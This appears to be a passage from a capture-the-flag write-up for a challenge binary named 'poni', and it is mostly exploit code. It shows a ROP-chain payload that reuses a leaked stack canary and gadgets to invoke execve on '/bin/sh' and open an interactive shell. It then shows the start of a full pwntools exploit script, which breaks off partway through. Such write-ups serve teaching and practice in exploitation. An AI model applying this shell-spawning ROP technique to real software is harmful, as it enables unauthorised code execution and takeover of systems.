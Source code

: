 After we leak all the stuff we need it all comes down to a simple rop chain.

```python
    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()
```

And this is the full exploit:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./poni")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=True, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        io = remote("127.0.0.1", 1337)
    return io


def main():
    io = conn()
    p = log.progress("loading")
    # Skip all the printed ponis.
    io.recvuntil(b"!!!\nponi")
    p.success("intro finished")

    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset
```